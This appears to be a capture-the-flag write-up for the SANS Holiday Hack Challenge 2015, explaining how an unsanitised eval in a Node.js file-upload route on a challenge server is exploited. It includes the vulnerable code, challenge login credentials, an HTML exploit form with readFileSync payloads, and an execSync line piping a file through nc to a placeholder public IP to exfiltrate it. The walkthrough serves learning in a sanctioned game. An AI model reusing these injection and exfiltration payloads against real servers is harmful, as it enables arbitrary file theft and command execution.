



## Holiday Hack Challenge 2015
# Level 4-4 : Gnomage Pwnage (SG-04)

The goal for Level 4 is to get access to all 5 of the SuperGnome servers and download the **/gnome/www/files/gnome.conf** file from each of them

Login into SG-04 (52.192.152.132) using the admin credentials (admin:SittingOnAShelf)

This time around, the website is a little different
- File download has been disabled
- 'Files' page now has an upload form



Read the source code from **/www/routes/index.js** that handles the FilesUpload

```js
// FILES UPLOAD
router.post('/files', upload.single('file'), function(req, res, next) {
  if (sessions[sessionid].logged_in === true && sessions[sessionid].user_level > 99) { // NEDFORD: this should be 99 not 100 so admins can upload
    var msgs = [];
    file = req.file.buffer;
    if (req.file.mimetype === 'image/png') {
      msgs.push('Upload successful.');
      var postproc_syntax = req.body.postproc;
      console.log("File upload syntax:" + postproc_syntax);
      if (postproc_syntax != 'none' && postproc_syntax !== undefined) {
        msgs.push('Executing post process...');
        var result;
        d.run(function() {
          result = eval('(' + postproc_syntax + ')');
        });
        // STUART: (WIP) working to improve image uploads to do some post processing.
        msgs.push('Post process result: ' + result);
      }
      msgs.push('File pending super-admin approval.');
      res.msgs = msgs;
    } else {
      msgs.push('File not one of the approved formats: .png');
      res.msgs = msgs;
    }
  } else
    res.render('index', { title: 'GIYH::ADMIN PORT V.01', session: sessions[sessionid], res: res });
  next();
});
```

Follow the usage of the "postproc" parameter

```js
var postproc_syntax = req.body.postproc;
...
if (postproc_syntax != 'none' && postproc_syntax !== undefined) {
...
result = eval('(' + postproc_syntax + ')');
```

The parameter is used directly in a "eval" function without sanitisation. This means that any Javascript code that is provided through this input will be executed. In the case of a NodeJS environment, this is a Server Side Javascipt (SSJS) Injection vulnerability

Looking at the HTML code of the Files Upload form itself shows that it is doing exactly that

```html
<div class="form-group form-group-1g">
  <h4 class="col-sm-5">Post-process:</h4>
  <div class="col-sm-7">
    <select required="" name="postproc" class="form-control">
      <option value="none">none</option>
      <option value="postproc(&quot;timestamp&quot;, file)">timestamp</option>
      <option value="postproc(&quot;darken50&quot;, file)">darken 50%</option>
      <option value="postproc(&quot;darken20&quot;, file)">darken 20%</option>
      <option value="postproc(&quot;brighten50&quot;, file)">brighten 50%</option>
      <option value="postproc(&quot;brighten20&quot;, file)">brighten 20%</option>
    </select>
  </div>
</div>
<div class="form-group">
  <h4 class="col-sm-5">Choose a file:</h4>
  <div class="col-sm-7">
    <input required="" name="file" class="form-control" type="file">
  </div>
</div>
<div class="form-group">
  <div class="col-sm-offset-6 col-sm-6">
    <button type="submit" class="login btn btn-primary">Upload</button>
  </div>
</div>
```

A Javascript function call is passed directly through the parameter

This is exceptionally dangerous in a NodeJS environment because NodeJS provides a lot of powerful functions. The following function allows the reading of any arbitrary file on the server.

> require('fs').readFileSync('/gnome/www/files/gnome.conf')

To make it easier to exploit without having to setup a proxy, I created a [HTML document](pwn4.html) with the following form that is aimed at SG-04's file upload

```html
<h2>Upload New File</h2>
<form action="http://52.192.152.132/files" method="post" role="form" enctype="multipart/form-data">
  <h4>Post-process:</h4>
  <select required name="postproc">
    <option value="res.end(require('fs').readFileSync('/gnome/www/files/gnome.conf'))">gnome.conf</option>
    <option value="res.end(require('fs').readFileSync('/gnome/www/files/sgnet.zip'))">sgnet.zip</option>
    <option value="res.end(require('fs').readFileSync('/gnome/www/files/20151203133815.zip'))">20151203133815.zip</option>
    <option value="res.end(require('fs').readFileSync('/gnome/www/files/factory_cam_4.zip'))">factory_cam_4.zip</option>
    <option value="res.send(require('child_process').execSync('cat /gnome/www/files/factory_cam_4.zip | nc YOUR_PUBLIC_IP YOUR_PUBLIC_PORT'))">factory_cam_4</option>
  </select>
  <h4>Choose a file:</h4>
  <input required name="file" type="file">
  <button type="submit">Upload</button>
</form>
```

Do note that you will need to login into SG-04 first before using the above form to exploit it. 

Also, "res.end()" basically ends the HTTP response and tell the server to respond with whatever it's provided with. In this case, its the file's contents



Similar to SG-02, the file uploaded is not processed in any ways. It must be a PNG file though which the code does check for. Thus, any PNG file will do.



[SG04_gnome.conf](SG04_gnome.conf)

```
Gnome Serial Number: BU22_1729_2716057 
Current config file: ./tmp/e31faee/cfg/sg.01.v1339.cfg
Allow new subordinates?: YES
Camera monitoring?: YES
Audio monitoring?: YES
Camera update rate: 60min
Gnome mode: SuperGnome
Gnome name: SG-04
Allow file uploads?: YES
Allowed file formats: .png
Allowed file size: 512kb
Files directory: /gnome/www/files/
```

PS: Use the same method to download the factory_cam_4.zip and 20151203133815.zip for Level 5 too (They are already included in the exploit form above)

PPS: Notice there is an additional option to download factory_cam_4.zip which is different??

**Getting factory_cam_4.zip**

When I used the readFileSync method to try and get the "factory_cam_4.zip" file, the download kept getting truncated (cut off at ~65KB mark of a 1.1MB file). Some of my friends downloaded it succesfuuly through this method but I couldn't get it to work

I tried another way which also highlights another powerful/dangerous function of NodeJS

> require('child_process').execSync('cmds here')

This function allows you to execute any command line commands through Javascript. In this case, I used cat and nc to transfer the file back to me.

> require('child_process').execSync('cat /gnome/www/files/factory_cam_4.zip | nc YOUR_PUBLIC_IP YOUR_PUBLIC_PORT')

This method do require you to have access to a public facing IP or Domain where you can setup a nc listener

For me, my router has a free DDNS service which I could use to get a public facing Domain. If anybody needs help on how to set this up, just pop me a message.